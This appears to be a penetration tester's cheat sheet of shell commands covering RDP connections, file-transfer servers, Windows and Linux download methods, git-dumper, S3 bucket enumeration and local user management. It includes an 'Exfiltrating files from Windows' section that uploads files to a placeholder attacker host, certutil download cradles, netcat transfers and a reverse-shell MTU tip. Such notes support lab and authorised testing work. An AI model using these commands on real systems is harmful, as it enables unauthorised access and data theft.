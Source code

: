 # 🪖 General

## Connecting to RDP

```shell
# add resolution support
xfreerdp3 /u:user /p:pass /v:<ip> /dynamic-resolution
# add clipboard support
xfreerdp3 /u:user /p:pass /v:<ip> +clipboard
# add a share to easily transfer files
xfreerdp3 /u:user /p:pass /v:<ip> /drive:<name>,<path> 
```

## File Transfers

### HTTP Server

```shell
# simple python server
python -m http.server <port>
# simple python upload-enabled server (optional basic auth)
pip install uploadserver
python -m uploadserver --basic-auth user:pass <port>

# WebDAV server
wsgidav -H 0.0.0.0 -p 80 --auth anonymous -r .

# Apache (copy files to /var/www/html)
sudo systemctl start apache2
```

### SMB Server

```shell
impacket-smbserver -smb2support share $(pwd) 
# win 10+ Compatibility (With Authentication)
impacket-smbserver -smb2support -user test -password test share $(pwd) 
```

### Netcat

```shell
# start a listener (nc|nc.exe)
nc -lvnp <port> > received_file

# send the file
nc <ip> <port> < <file_path>
```

### Downloading files on Windows

```shell
# PowerShell
iwr -uri <uri> -outfile <filename>

# cmd
certutil -urlcache -split -f <uri> <dest>

# copy from smb share
copy \\<ip>\share\<file>

# mount share before copy. (win 10+ w/o Authentication)
net use Z: \\<ip>\share
# mount share before copy. (win 10+ w/ Authentication)
net use Z: \\<ip>\share /u:user 'pass'
```

### Exfiltrating files from Windows

```shell
# send file to python upload-enabled server
Invoke-WebRequest -Uri http://<linux-ip>:<port>/upload -Method Post -InFile C:\path\to\file
curl -F "file=@C:\path\to\file.txt" http://<linux-ip>:<port> -u user:pass

# copy to smb share
copy C:\path\to\file \\<ip>\share
```

### Downloading files on Linux

```shell
# wget and curl
wget http://<ip>:<port>/<file>
curl -O http://<ip>:<port>/<file>
```

## Git

> [git-dumper](https://github.com/arthaud/git-dumper)

```shell
# dump git repo from url
git-dumper <url>/.git ./website

# show commits on a branch
git log
# show commit details and changes
git show <commit>
```

## AWS 
Out of Scope
{: .label .label-yellow }

Setup credentials if you find access keys

```shell
aws configure
```

### S3

```shell
# list public buckets without credentials
aws s3 ls s3://<bucket>/ --endpoint-url <url> --no-sign-request

# download a bucket
aws s3 cp s3://<bucket> ./

# check bucket policy
aws s3api get-bucket-policy --bucket <bucket> --endpoint-url <url> --no-sign-request

# upload a file to a bucket
aws s3 cp <file> s3://<bucket>/ --endpoint-url <url> --no-sign-request
```

## Windows

### Utils

```shell
# search for a word in a file 
Select-String -Path "sb.txt" -Pattern "password"

# enumerate permissions
icacls "<path>"
Get-ACL "<path>"

# kill a process
taskkill /F /IM chisel.exe
# or by PID
tasklist | findstr chisel.exe
taskkill /PID <PID> /F
```

### User Management

```shell
# enumerate users and groups
net user <user>
net localgroup <group>

# create local user and add it to a group
net user <user> <pass> /add
net localgroup <group> <user> /add

# change local user's password
net user <user> <newpass>
```

## Linux

### Users

```shell
useradd -u <UID> -g <group> <uname>
```

### Network Connections

```shell
# log incoming traffic on a specific port
sudo tcpdump -nvvvXi tun0 tcp port 8080

# network connections
netstat -antp # check tcp conns on all sockets
ss -ntplu # check tcp and udp listening conns

# kill connection
fuser -k <port>/tcp
fuser -k <port>/udp
kill -9 <PID>
```

### SSH

```shell
# create keys
ssh-keygen -t rsa -b 4096
```

### Misc

```shell
# reduce binary size (useful for binaries that are going to be transferred)
upx <bin_path>
```

## VPN

Reduce MTU if reverse shells are not connecting back.

```shell
ifconfig tun0 mtu 1200
```